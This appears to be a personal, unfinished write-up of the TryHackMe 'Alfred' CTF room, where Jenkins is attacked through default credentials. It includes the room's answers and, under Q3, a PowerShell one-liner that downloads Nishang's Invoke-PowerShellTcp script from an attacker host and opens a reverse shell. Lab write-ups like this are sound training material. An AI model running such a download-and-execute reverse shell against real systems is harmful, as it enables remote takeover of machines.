 ```yaml
---
layout: post
title: Alfred
categories: [CyberSecurity, CTF]
tags: [thm, easy, nmap, windows, Jenkins, Nishang]
---
```


![Alfred](/assets/alfred.png){: .right }{: w="200" h="200" }

## Walkthrough
[https://tryhackme.com/room/alfred](https://tryhackme.com/room/alfred)

**Difficulty level:** Easy

## Task 1: Initial Acess
In this room, we'll learn how to exploit a common misconfiguration on a widely used automation server(Jenkins - This tool is used to create continuous integration/continuous development pipelines that allow developers to automatically deploy their code once they made changes to it). After which, we'll use an interesting privilege escalation method to get full system access. 

Since this is a Windows application, we'll be using [Nishang](https://github.com/samratashok/nishang) to gain initial access. The repository contains a useful set of scripts for initial access, enumeration and privilege escalation. In this case, we'll be using the [reverse shell scripts](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)


### Questions

Q1. How many ports are open? (TCP only)

> "3"

Q2. What is the username and password for the login panel? (in the format username:password)

> "admin:admin"

Q3. Find a feature of the tool that allows you to execute commands on the underlying system. When you find this feature, you can use this command to get the reverse shell on your machine and then run it: powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port

You first need to download the Powershell script and make it available for the server to download. You can do this by creating an http server with python: python3 -m http.server


> "No answer needed"

Q4. What is the user.txt flag? 

> ""

### MyWalk

Several tries even following several walkthroughs without success!! No connection was made on the listener. Also on discord there's some people showing problems on receiving the connection from target.  
To try again later, or following one of the latest walkthrough:

https://olivierkonate.medium.com/  alfred-tryhackme-writeup-d3dca737e0fc
